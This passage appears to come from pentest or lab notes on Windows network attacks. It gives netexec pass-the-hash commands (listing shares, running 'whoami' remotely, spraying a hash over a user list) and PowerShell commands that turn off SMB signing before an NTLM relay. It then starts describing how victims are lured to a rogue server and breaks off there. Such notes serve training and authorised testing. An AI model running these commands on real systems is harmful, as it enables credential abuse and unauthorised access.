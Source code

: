 We can perform a pass the hash attack with `netexec` as follows
```sh
nxc smb 192.168.122.30 -u administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

```sh
nxc smb 192.168.122.30 -u administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE --shares
```

```sh
nxc smb 192.168.122.30 -u administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE -X "whoami"
```

We can spray the NTLM hash to understand to which user it belongs to.
```sh
nxc smb 192.168.122.30 -u users.txt -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

### Scenario 8 - Net-NTLM Relay Attack

If it is not possible to crack the hash, then we can `relay` it.  This can be done if the SMB server does not require signing.

Check if signing is enabled
```sh
Get-SmbServerConfiguration | Select EnableSMB1Protocol, EnableSMB2Protocol, RequireSecuritySignature
```

Disable signing from GPO
```sh
gpedit.msc
```

```sh
Computer -> Configuration\Windows
         -> Settings\Security
         -> Settings\Local
         -> Policies\Security
         -> Options
```

Disable signing from powershell
```powershell
Set-SmbClientConfiguration -RequireSecuritySignature $false
```

```powershell
Set-SmbServerConfiguration -RequireSecuritySignature $false
```

The relay attack works as follows:

  1. `Interception of Authentication Attempt`

     The victim is lured into authenticating to a malicious SMB server.
     Can be done via phishing, LLMNR/NBNS spoofing, or tricking a user
     into accessing a file share.

  2. `Capture of Net-NTLM Challenge-Response`

